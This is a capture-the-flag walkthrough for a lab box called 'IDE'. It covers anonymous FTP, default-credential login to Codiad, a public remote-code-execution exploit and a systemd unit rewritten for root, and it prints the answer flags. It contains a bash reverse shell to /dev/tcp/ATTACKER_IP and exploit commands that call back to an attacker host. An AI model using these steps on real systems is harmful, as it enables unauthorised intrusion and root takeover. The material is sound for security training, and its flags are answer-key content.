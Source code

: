 # IDE

## Nmap

```bash
nmap -sV -p- -T4 <IP> -vv
```

```
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 64 vsftpd 3.0.3
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.29 (Ubuntu)
62337/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 (Ubuntu)
```

---

## FTP

Going into FTP and trying anonymous, I got a file named `-`. I copied the file, named it `test`, and got this out of it:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

There are two people named john and drac. John’s password has been reset to default and there’s an image file. Pivoting to the web server.

<img width="1859" height="968" alt="Screenshot From 2025-09-02 21-53-28" src="https://github.com/user-attachments/assets/6d2b21c6-847f-41a8-8f33-c7f5b9f49908" />


---

## Web & Exploit

I tried the username `john` and password `password`. That worked.

Now I saw four different Python files and they all worked together. I found this exploit online for **Codiad 2.8.4**:

[https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)

Setting up the payload:

```bash
python exploit.py http://ide.thm:62337/ john password ATTACKER_IP 1234 linux
```

Follow the GIFs in the GitHub if confused. After getting in, I tried to read the first flag but didn’t have permission. Pivoting around and looking at `.bash_history`, I saw a password:

```
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

Switching to drac with that password worked, and I got the first flag:

> Q1: User flag
> A1: 02930d21a8eb009f6d26361b2d24a466

---

## Privilege Escalation

Doing `sudo -l` as drac:

```
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

I checked the systemd unit file for vsftpd at `/lib/systemd/system/vsftpd.service`. Normally it contains the instructions for systemd to launch the FTP server.

I edited the file and changed the `ExecStart` line so instead of starting `/usr/sbin/vsftpd`, it ran my payload:

```bash
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/9001 0>&1'
```

After saving the file, I ran:

```bash
systemctl daemon-reload
sudo /usr/sbin/service vsftpd restart
```

Since I was allowed to restart vsftpd as root, systemd executed my malicious command as root instead of starting the FTP server.

With a netcat listener running:

```bash
nc -lvnp 9001
```

I caught a reverse shell and gained root.

---

## Flags

> Q1: User flag
> A1: 02930d21a8eb009f6d26361b2d24a466

> Q2: Root flag
> A2: ce258cb16f47f1c66f0b0b77f4e0fb8d
